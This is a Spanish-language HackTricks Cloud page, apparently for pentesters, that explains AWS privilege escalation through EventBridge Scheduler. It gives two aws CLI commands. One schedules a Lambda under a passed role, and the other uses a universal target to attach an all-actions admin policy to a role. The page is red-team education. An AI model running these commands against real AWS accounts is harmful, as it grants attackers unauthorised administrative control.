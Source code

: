 # AWS - EventBridge Scheduler Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## EventBridge Scheduler

EventBridge Scheduler se puede utilizar para la escalada de privilegios programando llamadas a varios servicios de AWS. Al aprovechar su capacidad para invocar servicios de manera programada, los usuarios con permisos suficientes pueden escalar privilegios. Aquí hay algunas de las acciones clave que EventBridge Scheduler puede activar utilizando objetivos plantillados:

* Lambda: lambda:InvokeFunction - Invocar funciones Lambda en un horario.
* CodeBuild: codebuild:StartBuild - Iniciar proyectos de AWS CodeBuild.
* CodePipeline: codepipeline:StartPipelineExecution - Activar ejecuciones de AWS CodePipeline.
* ECS: ecs:RunTask - Ejecutar tareas de ECS.
* EventBridge: events:PutEvents - Colocar eventos en EventBridge.
* Inspector: inspector:StartAssessmentRun - Iniciar evaluaciones de Amazon Inspector.
* Kinesis: kinesis:PutRecord - Colocar registros en flujos de Kinesis.
* Firehose: firehose:PutRecord - Colocar registros en flujos de entrega de Firehose.
* SageMaker: sagemaker:StartPipelineExecution - Iniciar ejecuciones de pipeline de SageMaker.
* SNS: sns:Publish - Publicar mensajes en temas de SNS.
* SQS: sqs:SendMessage - Enviar mensajes a colas de SQS.
* Step Functions: states:StartExecution - Iniciar ejecuciones de AWS Step Functions.

Estas son solo algunas de las acciones plantilladas que EventBridge Scheduler puede realizar. Sin embargo, al usar objetivos universales, se pueden invocar muchas otras acciones en los servicios de AWS. Los objetivos universales permiten operaciones API más extensas más allá de la lista plantillada.

Más información sobre EventBridge Scheduler en:

{% content-ref url="../aws-services/eventbridgescheduler-enum.md" %}
[eventbridgescheduler-enum.md](../aws-services/eventbridgescheduler-enum.md)
{% endcontent-ref %}

### `iam:PassRole`, (`scheduler:CreateSchedule` | `scheduler:UpdateSchedule`)

Los usuarios con permisos `sts:AssumeRole`, `iam:PassRole` y `scheduler:CreateSchedule o scheduler:UpdateSchedule` pueden escalar privilegios aprovechando el EventBridge Scheduler para invocar servicios utilizando un rol con privilegios más altos.

Con estos permisos, un atacante puede asumir un rol con privilegios elevados y pasar ese rol a EventBridge Scheduler al crear o actualizar un horario. El horario se puede configurar para realizar cualquiera de las acciones listadas anteriormente, como invocar funciones Lambda, iniciar tareas de ECS, activar ejecuciones de CodePipeline, o cualquier operación de los 270 servicios de AWS soportados por EventBridge Scheduler. Al programar estas acciones, un atacante podría abusar de privilegios más altos para realizar operaciones no autorizadas en los servicios de AWS. \\

Por ejemplo, podrían configurar el horario para invocar una función Lambda que es una acción plantillada:
```bash
aws scheduler create-schedule \
--name MyLambdaSchedule \
--schedule-expression "rate(5 minutes)" \
--flexible-time-window "Mode=OFF" \
--target '{
"Arn": "arn:aws:lambda:<region>:<account-id>:function:<LambdaFunctionName>",
"RoleArn": "arn:aws:iam::<account-id>:role/<RoleName>"
}'
```
Además de las acciones de servicio en plantilla, puedes usar objetivos universales en EventBridge Scheduler para invocar una amplia gama de operaciones API para muchos servicios de AWS. Los objetivos universales ofrecen flexibilidad para invocar casi cualquier API. Un ejemplo puede ser usar objetivos universales añadiendo "AdminAccessPolicy", utilizando un rol que tiene la política "putRolePolicy":
```bash
aws scheduler create-schedule \
--name GrantAdminToTargetRoleSchedule \
--schedule-expression "rate(5 minutes)" \
--flexible-time-window "Mode=OFF" \
--target '{
"Arn": "arn:aws:scheduler:::aws-sdk:iam:putRolePolicy",
"RoleArn": "arn:aws:iam::<account-id>:role/RoleWithPutPolicy",
"Input": "{\"RoleName\": \"TargetRole\", \"PolicyName\": \"AdminAccessPolicy\", \"PolicyDocument\": \"{\\\"Version\\\": \\\"2012-10-17\\\", \\\"Statement\\\": [{\\\"Effect\\\": \\\"Allow\\\", \\\"Action\\\": \\\"*\\\", \\\"Resource\\\": \\\"*\\\"}]}\"}"
}'
```
## Referencias

* [https://docs.aws.amazon.com/scheduler/latest/UserGuide/managing-targets-templated.html](https://docs.aws.amazon.com/scheduler/latest/UserGuide/managing-targets-templated.html)
* [https://docs.aws.amazon.com/scheduler/latest/UserGuide/managing-targets-universal.html](https://docs.aws.amazon.com/scheduler/latest/UserGuide/managing-targets-universal.html)

{% hint style="success" %}
Aprende y practica Hacking en AWS:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Aprende y practica Hacking en GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya a HackTricks</summary>

* Revisa los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte trucos de hacking enviando PRs a los** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositorios de github.

</details>
{% endhint %}
